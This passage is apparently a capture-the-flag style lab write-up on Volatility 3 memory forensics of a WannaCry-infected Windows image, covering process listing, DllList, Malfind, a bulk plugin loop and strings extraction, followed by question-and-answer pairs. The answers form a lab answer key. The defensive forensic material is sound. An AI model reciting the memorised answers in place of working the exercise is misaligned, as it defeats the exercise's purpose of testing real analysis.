1636	1608	explorer.exe	0x21d9da0	11	331	0	False	2017-05-12 21:22:10.000000 	N/A	Disabled
1484	664	spoolsv.exe	0x21e2da0	14	124	0	False	2017-05-12 21:22:09.000000 	N/A	Disabled
1940	1636	tasksche.exe	0x2218da0	7	51	0	False	2017-05-12 21:22:14.000000 	N/A	Disabled
836	664	svchost.exe	0x221a2c0	19	211	0	False	2017-05-12 21:22:02.000000 	N/A	Disabled
1956	1636	ctfmon.exe	0x2231da0	1	86	0	False	2017-05-12 21:22:14.000000 	N/A	Disabled
4	0	System	0x23c8830	51	244	N/A	False	N/A	N/A	Disabled
```

### DllList

This plugin lists the loaded modules in a particular Windows memory image.

```bash
vol3 -f wcry.mem windows.dlllist.DllList
```

### Malfind

This plugin is used to lists process memory ranges that potentially contain injected code.

```
vol3 -f wcry.mem windows.malfind.Malfind
```

For more information regarding other plugins, you may check this [link](https://volatility3.readthedocs.io/en/stable/volatility3.plugins.html).

Now, you have the plugins running individually and seeing the result. What you will do now is process this in bulk. Remember, one of the investigative practices involves preprocessing evidence and saving the results to text files, right? The question is how?

The answer? Do a loop statement! See the command below.

```bash
for plugin in windows.malfind.Malfind windows.psscan.PsScan windows.pstree.PsTree windows.pslist.PsList windows.cmdline.CmdLine windows.filescan.FileScan windows.dlllist.DllList; do vol3 -q -f wcry.mem $plugin > wcry.$plugin.txt; done
```

- `-q` =  quiet mode or does not show the progress in the terminal
- `-f` = read from the memory capture.

### Preprocessing With Strings

Next, we will preprocess the memory image with the Linux strings utility. We will extract the **ASCII**, 16-bit **little-endian**, and 16-bit **big-endian** strings.

```powershell
root@10.80.169.119:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ strings wcry.mem > wcry.strings.ascii.txt
root@10.80.169.119:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ strings -e l  wcry.mem > wcry.strings.unicode_little_endian.txt
root@10.80.169.119:/home/ubuntu/Desktop/tasks/Wcry_memory_image$ strings -e b  wcry.mem > wcry.strings.unicode_big_endian.txt
```

### Questions

Q: What plugin lists processes in a tree based on their parent process ID?

A: `PsTree`

Q: What plugin is used to list all currently active processes in the machine?

A: `PsList`

Q: What Linux utility tool can extract the ASCII, 16-bit little-endian, and 16-bit big-endian strings?

A: `strings`

Q: By running vol3 with the Malfind parameter, what is the first (1st) process identified suspected of having an injected code?



A: `csrss.exe`

Q: Continuing from the previous question (Question 4), what is the second (2nd) process identified suspected of having an injected code?



A: `winlogon.exe`

Q: By running vol3 with the DllList parameter, what is the file path or directory of the binary @WanaDecryptor@.exe?



A: `C:\Intel\ivecuqmanpnirkt615\@WanaDecryptor@.exe`

## Section 4

### Questions

Q:

A: ``

Q:

A: ``

Q:

A: ``